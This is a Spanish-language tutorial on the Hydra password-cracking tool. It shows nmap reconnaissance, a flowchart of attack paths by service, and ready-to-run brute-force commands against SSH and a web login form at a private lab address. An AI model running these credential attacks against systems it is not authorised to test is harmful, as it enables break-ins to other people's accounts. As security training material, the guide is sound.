 > [!tip] Ver todos los protocolos
> Ejecuta `hydra -h` para ver la lista completa de módulos soportados.

---

## Guía Práctica de Uso

### Preparación para un ataque

1. **Reconocimiento**: Identifica el servicio y su versión
   ```bash
   nmap -sV -p 22 192.168.1.100
   ```

2. **Preparación de diccionarios**:
   - Usuarios: Lista de posibles nombres de usuario
   - Contraseñas: Diccionario de contraseñas probables

3. **Ajuste de parámetros**: Determina la velocidad y agresividad del ataque

### Estructura de ataques según servicio

```mermaid
graph TD
    A[Identificar Servicio] --> B{Tipo de Servicio}
    B -->|SSH/FTP/Telnet| C[Ataque directo con protocolo]
    B -->|Formulario Web| D[Configurar http-post-form]
    B -->|Autenticación Básica| E[Configurar http-get]
    C --> F[Ejecutar hydra con parámetros adecuados]
    D --> F
    E --> F
    F --> G{Resultado}
    G -->|Éxito| H[Credenciales encontradas]
    G -->|Fracaso| I[Ampliar diccionario o cambiar enfoque]
```

---

## Ejemplos Prácticos

### Ejemplo 1: Ataque SSH contra un usuario específico

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100 -t 4
```

> [!example] Explicación
> Este comando intenta acceder mediante SSH a la IP 192.168.1.100 utilizando el usuario "admin" y probando contraseñas desde el diccionario rockyou.txt. El parámetro `-t 4` limita a 4 conexiones paralelas para evitar bloqueos.

### Ejemplo 2: Ataque a formulario web de login

```bash
hydra -l admin -P /usr/share/wordlists/passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```
